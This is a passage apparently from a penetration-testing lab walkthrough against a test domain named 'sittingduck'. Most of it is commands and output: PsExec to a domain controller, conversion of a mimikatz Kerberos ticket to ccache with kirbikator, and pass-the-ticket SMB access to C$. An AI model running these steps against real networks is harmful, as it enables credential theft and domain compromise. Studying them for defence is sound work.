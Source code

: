 mimikatz #



C:\Users\notanadmin\Desktop>psexec \\dc1 cmd.exe

PsExec v1.97 - Execute processes remotely
Copyright (C) 2001-2009 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
sittingduck\uberuser

C:\Windows\system32>echo %COMPUTERNAME%
DC1

C:\Windows\system32>
```




## Convert Mimikatz Kerberos ticket to CCache and use
```
C:\Users\notanadmin\Desktop>kirbikator.exe ccache "2-40a50000-uberuser@cifs~dc1.
sittingduck.info-SITTINGDUCK.INFO.kirbi"

  .#####.   KiRBikator 1.0 (x86) release "Kiwi en C" (Feb  1 2015 03:37:29)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com                      (oe.eo)
  '#####'                                                     * * */

Destination : MIT Credential Cache (simple)
 < 2-40a50000-uberuser@cifs~dc1.sittingduck.info-SITTINGDUCK.INFO.kirbi (RFC KRB
-CRED (#22))
 > Single file : uberuser@SITTINGDUCK.INFO.ccache

C:\Users\notanadmin\Desktop>
```

### Method 1

```
KRB5CCNAME=uberuser@SITTINGDUCK.INFO.ccache smbclient -k //dc1.sittingduck.info/c$
OS=[Windows Server 2012 R2 Standard 9600] Server=[Windows Server 2012 R2 Standard 6.3]
smb: \> 
```

### Method 2
```
root@kali:~# apt-get install krb5-user
Reading package lists... Done
Building dependency tree       
Reading state information... Done
The following extra packages will be installed:
  krb5-config libgssrpc4 libkadm5clnt-mit9 libkadm5srv-mit9 libkdb5-7
Suggested packages:
  krb5-doc
The following NEW packages will be installed:
  krb5-config krb5-user libgssrpc4 libkadm5clnt-mit9 libkadm5srv-mit9 libkdb5-7
0 upgraded, 6 newly installed, 0 to remove and 0 not upgraded.